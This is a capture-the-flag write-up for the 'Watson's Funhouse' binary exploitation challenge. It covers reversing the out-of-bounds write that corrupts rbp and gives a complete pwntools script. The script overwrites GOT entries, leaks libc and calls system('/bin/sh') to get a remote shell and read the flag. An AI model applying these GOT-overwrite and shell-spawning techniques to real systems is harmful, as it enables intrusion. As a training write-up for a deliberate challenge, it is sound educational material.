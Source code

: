 # Watson's Funhouse [1000/1/FB]

![img](https://i.imgur.com/Hg5su5T.jpg)

<p align=center><i>Pictured: Time-traveling Detective builds Funhouse</i></p>

Working from home is a blast when you have the company of a  time-traveling, ground-pounding detective. Rumor has it that her latest  project, "Watson's Fun House" has just been completed. Care to take a  ride?

```
nc chals.ctf.sg 20301
```

 Author: niktay

**Files**: [watsons_funhouse](https://api.ctf.sg/file?id=ckm3ltu3i0hio08562uymdv7l&name=watsons_funhouse)

![image-20210314110617498](image-20210314110617498.png)

## Reversing

The binary contains symbols for most variables and functions; reading it in IDA isn't difficult. To summarise: 

```c
void funhouse(char *ptr) {
  int choice; // [rsp+18h] [rbp-68h] BYREF
  void *buf[11]; // [rsp+20h] [rbp-60h]
  unsigned __int64 cookie; // [rsp+78h] [rbp-8h]
  cookie = __readfsqword(0x28u);

  puts(...);
  printf("Choice => ");
  scanf("%d", &choice);
  if ( choice == 1 )
    for (int i = 0; i <= 5; ++i) {
      if ( buf[2 * i + 2] ) // 2*i+2 is maximally 12: this is an overflow!
        buf[2 * i + 2] = ptr;
    }
}
int main() {
  /* make sure you remember all of these offsets - they're important! */
  void *ptr; // [rsp+8h] [rbp-118h] BYREF
  char buf[264]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 cookie; // [rsp+118h] [rbp-8h]
  cookie = __readfsqword(0x28u);
    
  setup_IO();
  puts(...); // show very large intro banner
  printf("Ticket Number => ");
  scanf("%ld", &ptr);
  memfrob(ptr, 8);
  funhouse(ptr);
  puts(...); // show another smaller banner
  printf("Enter Feedback => ");
  scanf("%s", buf);
  if (cookie != __readfsqword(0x28)) __stack_chk_fail();
}
```

The main loop has 3 steps:

1. take in an input pointer `ptr`. The pointer provided needs to point to a writeable location, or memfrob() will crash.
2. Take in an input option of 1 or 2. If 1 is selected, `ptr` will be copied into `rbp` upon returning from `funhouse()`.
3. Write an infinite number of non-whitespace bytes to `buf == [rbp-0x110]` via scanf().

Before (2), the stack will vaguely look like this:

![image-20210313222347391](image-20210313222347391.png)

note that `42 == ord('*')`; `0x602048` is the address I used as input for (1) here.

After `funhouse()`, the stack will look like this:

![image-20210313222655505](image-20210313222655505.png)

The `ptr` provided fills up a number of positions on the stack, and one of those positions causes the base pointer to be modified:: ![image-20210313222813908](image-20210313222813908.png)

Since main() uses `rbp` for it's stack:

![image-20210313222844290](image-20210313222844290.png)

And because RELRO is partial:

![image-20210313222920305](image-20210313222920305.png)

The solution here is to use `[rbp+buf]` to overwrite `__stack_chk_fail` for code execution. Editing `rbp` via (2) allows for an arbitrary write, and writing to `got.symbols['__stack_chk_fail']` in particular will grant RIP control after the stack check at `main()` fails.

## Exploitation

tldr:

1. replace `__stack_chk_fail` with `main`.
2. replace `memfrob` with `_puts` (the function that calls `got.symbols['puts']`); leak libc with `memfrob(ptr)`
   `context.libc_database.libc_find()` is a godsend here so long as your libc-database isn't filled with duplicate garbage like mine
3. put `/bin/sh` somewhere; replace `memfrob` with `libc.symbols['system']`.

```python
from pwnscripts import *
context.binary = 'watsons_funhouse'
context.libc_database = 'libc-database'
buf = 0x110
scratch = 0x602500
r = remote('chals.ctf.sg', 20301)
def cycle(rbp: int, choice: bool, feedback: bytes):
    r.sendlineafter('Ticket Number => ', str(rbp))
    rtr = r.recvline()
    r.sendlineafter('Choice => ', str(choice))
    r.sendlineafter('Enter Feedback => ', feedback)
    return rtr

cycle(context.binary.got['__stack_chk_fail']+buf, 1, pack(context.binary.symbols['main'])[:7])

cycle(context.binary.got['memfrob']+buf, 1, pack(context.binary.symbols['puts'])[:7])
GOT_FUNCS = ['puts', 'scanf', 'printf']
leaks = {f:unpack_bytes(cycle(context.binary.got[f], 2, b'a'*0x110), 6) for f in GOT_FUNCS}
context.libc = 'libc6_2.27-3ubuntu1.4_amd64' #context.libc = context.libc_database.libc_find(leaks)
context.libc.symbols['puts'] = leaks['puts']

cycle(scratch+buf, 1, b'/bin/sh\0')
cycle(context.binary.got['memfrob']+buf, 1, pack(context.libc.symbols['system'])[:7])
r.sendlineafter('Ticket Number => ', str(scratch))
r.interactive()
```

If you know exactly what to do from the get-go, there's honestly not too much difficulty to the challenge. This solution _wasn't_ obvious to me from the get-go, and I think it speaks to the (good) quality of the challenge.

### Other things I tried

With a buffer overflow and the GOT available without PIE, instinct says to dig in with a ROP chain if at all possible. Problems arrive when you start trying to implement that rop-chain:

![image-20210314113612716](image-20210314113612716.png)

`chr(0xa) == '\n'`. The buffer overflow occurs via `scanf("%s", ...)`, and there's no feasible way to upgrade to a more universal i/o method without access to libc first. Without any way to edit `rdi`, a ROP chain would be completely useless.

So, I had an extra idea: what if you encoded whitespace-containing gadgets with `memfrob`, and then decrypted them one-by-one in `main()`?

```python
R = ROP(context.binary)
R.puts(context.binary.got['memfrob'])
R.puts(context.binary.got['puts'])
R.main()
payload = group(8,R.chain())
bads = [i for i,b in enumerate(payload) if any(c in b for c in b'\n ')]
for i in bads: payload[i] = xor(payload[i], p8(42)*8)
print(payload)
cycle(scratch+buf, 1, b''.join(payload))
```

This was a great idea on paper. It would've even worked for some whitespace characters like `'\t'`. Unfortunately, the newline is a rather unlucky character:

```python
>>> chr(ord('\n')^42)
' '
```

`scanf()` bans both `' '` _and_ `'\n'`. Neither can be encoded with `memfrob`, and the ROP chain is straight up impossible.

---

I also considered doing `ret2dlresolve` (infinite overflow, PIE disabled, unknown libc). It was to my contrition that I noticed this pwntools warning:

```python
[!] Ret2dlresolve is likely impossible in this ELF (too big gap between text and writable sections).
    If you get a segmentation fault with fault_addr = 0x42b290, try a different technique.
```

That ended that hope.

## Ending

```sh
[*] Switching to interactive mode
$ ls /home/watsons*
Makefile
flag.txt
main.c
watsons_funhouse
$ cat /home/watsons_funhouse/flag.txt
CTFSG{gur4_d035nt_kn0w_1_ex15t_h1c}
$
```